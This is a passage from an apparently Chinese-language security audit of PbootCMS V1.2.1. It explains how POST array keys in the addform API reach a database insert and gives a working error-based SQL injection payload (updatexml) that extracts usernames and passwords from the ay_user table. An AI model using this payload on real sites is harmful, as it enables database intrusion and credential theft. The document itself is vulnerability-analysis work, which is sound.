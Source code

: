                 // 写入数据
                if ($this->model->addMessage($value->table_name, $data)) {
                    $this->log('API提交表单数据成功！');
                    if ($this->config('message_send_mail') && $this->config('message_send_to')) {
                        $mail_subject = "【PbootCMS】您有新的表单数据，请注意查收！";
                        $mail_body .= '<br>来自网站' . get_http_url() . '（' . date('Y-m-d H:i:s') . '）';
                        sendmail($this->config(), $this->config('message_send_to'), $mail_subject, $mail_body);
                    }
                    json(1, '表单提交成功！');
                } else {
                    $this->log('API提交表单数据失败！');
                    json(0, '表单提交失败！');
                }
            } else {
                json(0, '表单提交失败，请使用POST方式提交！');
            }
        }

可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部
POST 内容，只匹配数据库的字段，相同才会拼接到 \$\_data数组

    然后就会带入 $this->model->addMessage(data) 执行语句

文件：PbootCMS-V1.2.1\\apps\\api\\model\\CmsModel.php 函数：addMessage(

    // 新增留言
        public function addMessage($table, $data)
        {
            return parent::table('ay_message')->autoTime()->insert($data);
        }

根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入

0x10.3 接口注入三
-----------------

### 0x10.3.1 漏洞利用

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addform?fcode=1
    post:
        contacts[content`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
        mobile = 111
        content = 123

![](./resource/PbootCMSsql注入/media/rId53.png)

0x10.3.2 漏洞讲解

    // 表单提交  注入
        public function addform()
        {
            if ($_POST) {
